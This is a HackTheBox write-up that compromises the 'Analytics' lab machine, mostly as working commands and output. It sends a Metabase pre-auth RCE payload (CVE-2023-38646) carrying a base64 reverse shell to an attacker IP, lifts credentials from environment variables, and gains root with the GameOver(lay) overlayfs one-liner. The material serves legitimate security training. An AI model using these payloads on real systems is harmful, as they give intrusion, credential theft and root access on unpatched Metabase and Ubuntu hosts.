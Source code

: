 # Analytics - HackTheBox - Writeup
Linux, 20 Base Points, Easy

![info.JPG](images/info.JPG)

## Machine

![‏‏Analytics.JPG](images/Analytics.JPG)
 
## TL;DR

To solve this machine, we start by using `nmap` to enumerate open services and find ports `22`, and `3000`.

***User***: Identified the subdomain `data.analytics.htb` hosting Metabase. Exploited `CVE-2023-38646` to acquire a reverse shell as the `metabase` user. Discovered the password of the `metalytics` user in the `env`.

***Root***: Leveraged the OS version to execute GameOver(lay) Ubuntu Privilege Escalation, resulting in obtaining a `root` shell.

![pwn.JPG](images/pwn.JPG)


## Analytics Solution

### User

Let's begin by using `nmap` to scan the target machine:

```console
┌─[evyatar9@parrot]─[/hackthebox/Analytics]
└──╼ $ nmap -sV -sC -oA nmap/Analytics 10.10.11.233
# Nmap 7.93 scan initiated Sat Jan  6 23:15:29 2024 as: nmap -sV -sC -oA nmap/Analytics 10.10.11.233
Nmap scan report for 10.10.11.233
Host is up (0.11s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Observing http://analytical.htb/, we see that the following web page is hosted:

![port80.JPG](images/port80.JPG)

Upon clicking the login page, it redirects us to http://data.analytical.htb:

![data.JPG](images/data.JPG)

As observed, it's Metabase—a open-source business intelligence tool enabling the creation of charts and dashboards using data from various databases and sources.

We can utilize [CVE-2023-38646](https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/) for obtaining a Pre-Authentication Remote Code Execution (RCE).

According to the link, we need to retrieve the setup token from http://data.analytical.htb/api/session/properties which is `"setup-token":"249fa03d-fd94-4d5b-b94f-b4ebf3df681f"`.

Next, we need to send the following POST request:
```http
POST /api/setup/validate HTTP/1.1
Host: data.analytical.htb
Content-Type: application/json
Content-Length: 812

{
    "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjU3LzQyNDIgMD4mMQo=}|{base64,-d}|{bash,-i}')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```

Where the base64 `YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjU3LzQyNDIgMD4mMQo=` decodes to `sh -i >&/dev/tcp/10.10.14.57/4242 0>&1`.

Executing this command grants us a reverse shell as the `metabase` user:
```console
┌─[evyatar9@parrot]─[/hackthebox/Analytics]
└──╼ $ nc -lvp 4242
listening on [any] 4242 ...
connect to [10.10.14.57] from analytical.htb [10.10.11.233] 51534
sh: can't access tty; job control turned off
/ $ whoami
metabase
```

Executing the command `env` reveals the following output:
```console
/ $ env
MB_LDAP_BIND_DN=
LANGUAGE=en_US:en
USER=metabase
HOSTNAME=b0d9aac8b711
FC_LANG=en-US
SHLVL=4
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
HOME=/home/metabase
OLDPWD=/dev
MB_EMAIL_SMTP_PASSWORD=
LC_CTYPE=en_US.UTF-8
JAVA_VERSION=jdk-11.0.19+7
LOGNAME=metabase
_=ls
MB_DB_CONNECTION_URI=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_PASS=
MB_JETTY_HOST=0.0.0.0
META_PASS=An4lytics_ds20223#
LANG=en_US.UTF-8
MB_LDAP_PASSWORD=
SHELL=/bin/sh
MB_EMAIL_SMTP_USERNAME=
MB_DB_USER=
META_USER=metalytics
LC_ALL=en_US.UTF-8
JAVA_HOME=/opt/java/openjdk
PWD=/
MB_DB_FILE=//metabase.db/metabase.db
```

The user `META_USER=metalytics` and the password `META_PASS=An4lytics_ds20223#` are visible in the output of the env command.

Utilizing these credentials, we can establish an SSH connection:
```console
┌─[evyatar9@parrot]─[/hackthebox/Analytics]
└──╼ $ ssh metalytics@analytical.htb
metalytics@analytical.htb's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-25-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Jan  8 12:58:13 PM UTC 2024

  System load:              0.11865234375
  Usage of /:               93.1% of 7.78GB
  Memory usage:             26%
  Swap usage:               0%
  Processes:                152
  Users logged in:          0
  IPv4 address for docker0: 172.17.0.1
  IPv4 address for eth0:    10.10.11.233
  IPv6 address for eth0:    dead:beef::250:56ff:feb9:f4fc

  => / is using 93.1% of 7.78GB

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Oct  3 09:14:35 2023 from 10.10.14.41
metalytics@analytics:~$ cat user.txt
33337145f65c908487888e1efe7eb276
```

And we get the user flag `33337145f65c908487888e1efe7eb276`.

### Root

By running `cat /etc/os-release`:
```console
metalytics@analytics:/tmp$ cat /etc/os-release 
PRETTY_NAME="Ubuntu 22.04.3 LTS"
NAME="Ubuntu"
VERSION_ID="22.04"
VERSION="22.04.3 LTS (Jammy Jellyfish)"
VERSION_CODENAME=jammy
ID=ubuntu
ID_LIKE=debian
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
UBUNTU_CODENAME=jammy
```

Observing that the system is running on `Ubuntu 22.04.3`, we can exploit the local privilege escalation vulnerability described in https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629 where Ubuntu Kernels overlayfs ovl_copy_up_meta_inode_data skips permission checks when calling ovl_do_setxattr on Ubuntu kernels.

To exploit this, execute the following command:
```console
metalytics@analytics:/tmp$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
metalytics@analytics:/tmp# ls -ltra /var/tmp/bash 
-rwsr-xr-x 1 root metalytics 1396520 Jan  8 13:30 /var/tmp/bash
```

We can see that we have bash SUID binary, Run it:
```console
root@analytics:/tmp# /var/tmp/bash -p
root@analytics:/tmp# whoami
root
root@analytics:/tmp# cat /root/root.txt 
87fb1b0ec4b4f2d1d3005d2fb307655c
```

And we get the root flag `87fb1b0ec4b4f2d1d3005d2fb307655c`.

```